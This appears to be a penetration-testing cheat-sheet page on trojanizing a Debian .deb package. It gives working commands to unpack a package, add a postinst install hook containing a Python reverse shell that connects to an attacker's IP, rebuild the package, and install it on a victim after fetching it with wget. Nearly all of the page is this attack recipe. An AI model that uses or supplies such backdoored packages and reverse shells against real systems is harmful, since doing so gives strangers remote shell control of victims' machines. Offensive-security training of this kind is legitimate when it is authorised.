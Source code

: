 # 🐧 Binary Linux Trojan

## Linux DEB Package Backdoor

### Practical

#### Infecting a Deb Package

For this you need a .deb file

```
# Extract the .deb file
dpkg -x <file.deb> <folder>

# Create a new directory called DEBIAN
mkdir <folder>/DEBIAN

# Inside the DEBIAN directory create a file called control and postinst
touch control postinst
```

Add the below commands inside the control file

```
Package: <package name>
Version: <version number>
Section: <app category>
Priotiry: <Optional>
Architecture: <architecture> # Architecture should support on the victim machine.
Maintainer: <name>
Description: <app description>
```

Add the below commands inside the postinst file

```
#!/bin/sh

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Make the postinst file executable and make new package file

```
chmod 755 postinst

dpkg-deb --build /tmp/evil/<folder>
```

#### Installing the deb package in the victim machine

```
wget http://<attacker ip>/<maclicious.deb>

dpkg -i <malicious.deb>
```



***

## REFERENCES

* [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)
